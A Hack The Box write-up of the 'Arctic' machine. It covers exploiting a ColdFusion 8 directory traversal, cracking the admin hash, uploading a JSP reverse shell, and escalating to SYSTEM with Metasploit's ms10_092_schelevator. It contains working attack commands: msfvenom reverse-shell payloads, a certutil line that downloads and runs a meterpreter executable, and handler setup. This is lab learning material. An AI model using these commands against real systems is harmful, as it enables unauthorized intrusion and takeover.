


# Arctic

```
kali@kali:~/Downloads$ sudo nmap -Pn 10.129.49.137
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-21 07:52 EST
Nmap scan report for 10.129.49.137
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.78 seconds
```

I do a quick rpcdump to see if there is anything that pops out.

```
rpcdump.py -p 135 10.129.49.137 
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.129.49.137
…
…
...
[*] Received 96 endpoints.
```

However nothing interesting showed up here. So let's do some basic enumeration on the fmtp port before we continue on the rpc path.

Fmpt is an acronym for `Flight Message Transfer Protocol`  I did some googling to try and find out what it was and how it worked. But I did not really receive anything other than it being on port 8500 and that it was a reliable transport protocol designed to run on top of a multicast network service for delivery of continuously generated files. 

So I try to browse to `http://10.129.49.137:8500` And get a file browser with two directories. CFIDE/ and cfdocs/.

I browse to `http://10.129.49.137:8500/CFIDE/administrator/` Where I am greeted with a login page. The username is stuck as admin. Might we be able to do some Hydra brute forcing? The only issue is that the webpage is pretty slow. It takes around 10 seconds for anything to load, if not more. So let's look around for more clues in case we find something easier.

The login page is Adobe Coldfusion 8.



Running searchsploit: 

```
kali@kali:~/htb/Arctic$ searchsploit coldfusion 8
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                    | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                 | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                    | multiple/remote/16985.rb
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization  | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                          | multiple/webapps/45979.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass              | windows/webapps/27755.txt
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection        | multiple/webapps/40346.py
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query Strin | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizardus | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Q | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Uploa | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages          | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)      | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                  | cfm/remote/21548.txt
ColdFusion Scripts Red_Reservations - Database Disclosure              | asp/webapps/7440.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclos | multiple/remote/22867.pl
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Arctic$ 
```
Quite a few results, but I’m looking at the Directory Traversal, the Arbitrary file upload / Execution. And maybe the Coldfusion 9 admin bypass?

I just use the example code to see what we can get.

```
usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
kali@kali:~/htb/Arctic$ python 14641.py 10.129.49.137 8500 ../../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

So we got an encrypted password. When browsing earlier, I found the docs for Coldfusion. So I go through those to see if I can find some more information.

`http://10.129.49.137:8500/cfdocs/htmldocs/help.html`

It takes so incredibly long to load. So I throw the encrypted password into hash-Identifier.

```
kali@kali:~/htb/Arctic$ hash-identifier 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

Least Possible Hashs:
[+] Tiger-160
[+] Haval-160
[+] RipeMD-160
[+] SHA-1(HMAC)
[+] Tiger-160(HMAC)
[+] RipeMD-160(HMAC)
[+] Haval-160(HMAC)
[+] SHA-1(MaNGOS)
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
[+] sha1(md5(sha1($pass)))
[+] sha1(sha1($pass))
[+] sha1(sha1($pass).$salt)
[+] sha1(sha1($pass).substr($pass,0,3))
[+] sha1(sha1($salt.$pass))
[+] sha1(sha1(sha1($pass)))
[+] sha1(strtolower($username).$pass)
--------------------------------------------------
 HASH: 
```

So I try to crack it with hashcat:

```
kali@kali:~/htb/Arctic$ hashcat -m 100 -a 0 pwhash.txt /wordlists/top12k.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 9 3900X 12-Core Processor, 2891/2955 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.                                                                                                        
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /wordlists/top12k.txt
* Passwords.: 12646
* Bytes.....: 100207
* Keyspace..: 12646
* Runtime...: 0 secs

2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 2f635f6d20e3fde0c53075a84b68fb07dcec9b03
Time.Started.....: Thu Jan 21 09:06:46 2021 (0 secs)
Time.Estimated...: Thu Jan 21 09:06:46 2021 (0 secs)
Guess.Base.......: File (/wordlists/top12k.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   112.1 kH/s (0.15ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096/12646 (32.39%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/12646 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> darkman

Started: Thu Jan 21 09:06:32 2021
Stopped: Thu Jan 21 09:06:48 2021
kali@kali:~/htb/Arctic$ 
```

And we can see that the password is `happyday`

So let's try to use that as the password

And we get into the administrator panel. So now all we have to do is find something that either lets us upload a file, or lets us connect to the server somehow. Note that these pages are taking around 30 seconds to load. It’s a nightmare.

Eventually I found the Scheduler, which allows me to upload a file from my own web server, and run it.

I did some googling, and found out that jsp files are what I should use as reverse shells on coldfusion servers. I found a quick one on github, and put in my ip and port.
You can also create a fast one with `msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.21 lport=1337 -f raw > shell.jsp`

I check the Server Settings > Mappings  to know where to place it. 

And see that I should place it here: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`



```
kali@kali:~/htb/Arctic$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.49.137 50421
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

And we finally get a connection. The webpage is so slow, so getting away from that is very satisfying.

So I check the user information:

```
C:\ColdFusion8\runtime\bin>whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                          
============ =============================================
arctic\tolis S-1-5-21-2913191377-1678605233-910955532-1000


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

And the system information: 

```
C:\ColdFusion8\runtime\bin>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC                           
```

So we have an x64 Windows Server 2008.

I tried a couple of things for a while. I attempt to download some files with powershell, but to no avail. 

It hits me after a while that I have a file upload, that I’ve already used! So I upload winPEAS using the schedule method.

```
C:\ColdFusion8\runtime\bin>cd C:\ColdFusion8\wwwroot\CFIDE
cd C:\ColdFusion8\wwwroot\CFIDE

C:\ColdFusion8\wwwroot\CFIDE>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\ColdFusion8\wwwroot\CFIDE

23/01/2021  04:18 ��    <DIR>          .
23/01/2021  04:18 ��    <DIR>          ..
22/03/2017  08:53 ��    <DIR>          adminapi
22/03/2017  08:55 ��    <DIR>          administrator
18/03/2008  11:06 ��             1.151 Application.cfm
22/03/2017  08:52 ��    <DIR>          classes
22/03/2017  08:52 ��    <DIR>          componentutils
22/03/2017  08:52 ��    <DIR>          debug
22/03/2017  08:52 ��    <DIR>          images
18/03/2008  11:06 ��            12.077 install.cfm
18/03/2008  11:07 ��               278 multiservermonitor-access-policy.xml
18/03/2008  11:06 ��            30.778 probe.cfm
22/03/2017  08:52 ��    <DIR>          scripts
23/01/2021  01:09 ��             2.887 shell.jsp
23/01/2021  01:39 ��             1.499 shellv2.jsp
23/01/2021  04:18 ��           472.066 winPEAS.exe
22/03/2017  08:52 ��    <DIR>          wizards
               7 File(s)        520.736 bytes
              10 Dir(s)  33.191.440.384 bytes free
```

But nothing happens.

```
C:\ColdFusion8\wwwroot\CFIDE>winPEAS.exe cmd
winPEAS.exe cmd
```

So I think I’ll have to resort to metasploit. To do this, I have to set up a meterpreter shell.

So lets run msfconsole and set up a handler:

MAKE SURE you set the payload to windows/meterpreter/reverse_tcp. I wasted way too long wondering why my reverse meterpreter did not work. It’s because I was listening for a generic tcp instead.

```
kali@kali:~/htb/Arctic$ sudo msfconsole
                                                  
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.21
hlost => 10.10.14.21
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.21:5555 
```

And let’s create a meterpreter shell:

```
kali@kali:~/htb/Arctic$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.21 lport=5555 -f exe > meter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Since I have not been lucky with the powershell today, I have two options. Either upload with the web page like I’ve done before. Or we can circumvent the 30 second wait for each page, and just use: `certutil.exe -urlcache -split -f http://10.10.14.21:80/meter.exe meter.exe`

```
C:\ColdFusion8\wwwroot\CFIDE>
certutil.exe -urlcache -split -f http://10.10.14.21:80/meter.exe meter.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```
And then:

```
C:\ColdFusion8\wwwroot\CFIDE>meter.exe
meter.exe
```

Hallelujah:

```
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.129.49.137
[*] Meterpreter session 1 opened (10.10.14.21:5555 -> 10.129.49.137:51549) at 2021-01-21 14:36:41 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : ARCTIC
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

From my earlier research, I knew of some exploits to use. But I’m just gonna check the local_exploit_suggester to make sure, and get some practice using it.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search sugges

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  auxiliary/server/icmp_exfil                                            normal     No     ICMP Exfiltration Service
   1  exploit/windows/browser/ms10_018_ie_behaviors         2010-03-09       good       No     MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   2  exploit/windows/http/sharepoint_data_deserialization  2020-07-14       excellent  Yes    SharePoint DataSet / DataTable Deserialization
   3  exploit/windows/smb/timbuktu_plughntcommand_bof       2009-06-25       great      No     Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   4  post/multi/recon/local_exploit_suggester                               normal     No     Multi Recon Local Exploit Suggester
   5  post/osx/gather/enum_colloquy                                          normal     No     OS X Gather Colloquy Enumeration
   6  post/osx/manage/sonic_pi                                               normal     No     OS X Manage Sonic Pi


Interact with a module by name or index. For example info 6, use 6 or use post/osx/manage/sonic_pi

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.49.137 - Collecting local exploits for x86/windows...
[*] 10.129.49.137 - 35 exploit checks are being tried...
[+] 10.129.49.137 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.129.49.137 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.49.137 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
Now we checked x86 exploits. Lets migrate the meterpreter to a x64 version as well, just to see what we can find there. I run ps to see what processes are running, and then migrate to a x64 one.

```
meterpreter > migrate 1136
[*] Migrating from 3360 to 1136...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.49.137 - Collecting local exploits for x64/windows...
[*] 10.129.49.137 - 20 exploit checks are being tried...
[+] 10.129.49.137 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

I tried `exploit/windows/local/ms16_075_reflection`, since it was in both lists, but it did not work. Next one is `exploit/windows/local/ms10_092_schelevator`.


```
msf6 exploit(windows/local/ms16_075_reflection) > use exploit/windows/local/ms10_092_schelevator
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_092_schelevator) > set session 1
session => 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\qpkilTpvH.exe
[*] Creating task: eIoGPEjcV0BSgNH
[*] SUCCESS: The scheduled task "eIoGPEjcV0BSgNH" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\eIoGPEjcV0BSgNH...
[*] Original CRC32: 0x881f533
[*] Final CRC32: 0x881f533
[*] Writing our modified content back...
[*] Validating task: eIoGPEjcV0BSgNH
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] eIoGPEjcV0BSgNH                          1/2/2021 6:08:00 ��    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "eIoGPEjcV0BSgNH" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "eIoGPEjcV0BSgNH" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.49.137
[*] SUCCESS: Attempted to run the scheduled task "eIoGPEjcV0BSgNH".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.21:4444 -> 10.129.49.137:51631) at 2021-01-21 14:56:12 -0500
[*] SUCCESS: The scheduled task "eIoGPEjcV0BSgNH" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

And we finally get root. This really showed me how powerful meterpreter really is. I felt sort of helpless with the normal shell. As I did not get any feedback from many commands, powershell did not work, and the website needed 30 seconds per refresh.


## Comparing myself to the official writeup:

The official writeup uses the other exploit I wondered about, the arbitrary file upload. They created a reverse tcp shell with msfvenom and uploaded it with a python script based on the exploit.

To get root they created a reverse meterpreter with msfvenom and used powershell to upload the meterpreter reverse shell. They also use the metasploit exploit suggester and find ms10-092 as the only exploit. I had more options on x64 comparatively.

This highlights a bit of why I dislike using metasploit, as it streamlines the process and takes any creativity out of hacking the box. But I ran out of ideas and time. So I went with meterpreter.

## How to stop this exploit:

Update Coldfusion to the latest version to fix the arbitrary file upload used in the official writeup, and the directory traversal I used. In addition, the schedule function on the admin panel should be limited, as I could upload anything onto the server.

The windows privesc is fixable by patching the system.
